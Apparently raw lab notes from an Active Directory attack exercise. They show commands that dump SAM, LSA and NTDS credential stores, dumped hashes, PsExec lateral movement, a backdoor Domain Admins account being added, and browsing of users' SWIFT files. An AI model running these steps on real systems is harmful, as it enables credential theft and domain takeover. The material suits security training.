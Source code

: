 get-adgroup "Domain Admins"
get-adgroupmember "Domain Admins"


https://www.thehacker.recipes/ad/movement/credentials/dumping/sam-and-lsa-secrets

reg save hklm\sam C:\SAM
reg save hklm\system C:\SYSTEM
reg save hklm\security C:\SECURITY

 cp \\rootdc.thereserve.loc\c$/SAM .
  cp \\rootdc.thereserve.loc\c$/SYSTEM .
  cp \\rootdc.thereserve.loc\c$/SECURITY .

download SAM
download SYSTEM
download SECURITY

https://moyix.blogspot.com/2008/02/decrypting-lsa-secrets.html

samdump2 SYSTEM SAM 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* :503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* ä:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::




powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\' q q"



.\PsExec64.exe \\rootdc.thereserve.loc -s cmd.exe

```
net user d1sturb3d /add M3nta11y
net group "Domain Admins" d1sturb3d /add /domain
```

proxychains secretsdump.py 'thereserve.loc/d1sturb3d:M3nta11y'@10.200.118.100 -outputfile rootdc.hashes

failed

psexec.py thereserve.loc/d1sturb3d:M3nta11y@10.200.118.100 cmd.exe
=> timeout

on corpdc : remote desktop to rootdc => not authorized

ls \\work1.bank.thereserve.loc\C$\Users
a.barker
g.watson
t.buckley

ls \\work1.bank.thereserve.loc\C$\Users\a.barker\Documents\Swift
-a----        2/19/2023   8:39 AM            303 Swift.txt
Get-content -path \\work1.bank.thereserve.loc\C$\Users\a.barker\Documents\Swift\Swift.txt


ls \\work1.bank.thereserve.loc\C$\Users\g.watson\Documents\Swift
-a----        2/19/2023   8:44 AM            341 swift.txt
Get-content -path \\work1.bank.thereserve.loc\C$\Users\g.watson\Documents\Swift\Swift.txt
